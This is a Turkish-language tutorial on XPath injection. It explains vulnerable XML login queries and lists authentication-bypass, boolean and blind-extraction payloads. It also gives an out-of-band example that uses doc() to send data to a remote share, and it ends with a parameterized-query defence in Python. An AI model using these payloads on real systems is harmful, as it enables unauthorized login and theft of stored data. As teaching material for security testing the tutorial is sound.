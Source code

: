 # XPATH Injection Nedir
XPATH Injection, web uygulamalarının XML veri kaynaklarına yaptığı sorguların kullanıcı girdisiyle manipüle edilmesiyle oluşan bir güvenlik açığıdır. SQL Injection’a benzer ama hedef XML/XPATH sorgularıdır. Bu açık, özellikle legacy sistemlerde, SOAP API’lerde veya XML tabanlı login formlarında görülür.

# XPATH Sorguları ve Yapısı

Bir XPATH sorgusu genellikle XML elemanlarını ve değerlerini hedefler. Örnek bir kullanıcı doğrulama sorgusu:
```xpath
//users/user[username/text()='$inputUsername' and password/text()='$inputPassword']
```

- $inputUsername ve $inputPassword kullanıcı girdileridir.
- Eğer bu girdiler filtrelenmezse, saldırgan sorguyu manipüle edebilir.

Örnek kötü niyetli giriş:
```xpath
Username: ' or '1'='1
Password: ' or '1'='1
```

Bu giriş, sorgunun tüm kullanıcıları döndürmesine yol açar.

## Boolean-Based XPATH Injection
Sorgu sonucunu true/false üzerinden manipüle eder.

Örnek payload:
```xpath
' or '1'='1
' or '1'='2
```

True sonucu dönerse, kullanıcıya özel bilgi elde edilebilir.

## Basit ve Boolean-Based Payloadlar
```xpath
' or '1'='1
' or ''=''
x' or 1=1 or 'x'='y
/
//
//*
*/*
@*
count(/child::node())
x' or name()='username' or 'x'='y
' and count(/*)=1 and '1'='1
' and count(/@*)=1 and '1'='1
')] | //user/*[contains(*,'
') and contains(../password,'c
') and starts-with(../password,'c
```

## Blind Exploitation Teknikleri
String uzunluğunu sorgulama:
```xpath
and string-length(account)=SIZE_INT
```

Belirli karakteri alma ve doğrulama:
```xpath
substring(//user[userid=5]/username,2,1)=CHAR_HERE
substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE)
```

## Out-of-Band (OOB) Exploitation
XML parser’ı ile uzak bir sunucuya veri sızdırma:
```
http://example.com/?title=Foundation&type=*&rent_days=* and doc('//10.10.10.10/SHARE')
```

Bu örnekler, XPATH Injection’ın SQLi mantığıyla çok benzer şekilde sömürülebileceğini gösterir.

# XPATH Injection’dan Korunmak
## Parametrized XPATH Queries
```py
from lxml import etree

# Kullanıcı girdileri
inputUsername = request.POST.get('username')
inputPassword = request.POST.get('password')

# XML dosyasını oku
tree = etree.parse("users.xml")

# Parametrized XPATH kullanımı
xpath_expr = "//users/user[username/text()=$username and password/text()=$password]"
result = tree.xpath(xpath_expr, username=inputUsername, password=inputPassword)

if result:
    print("Login successful")
else:
    print("Login failed")
```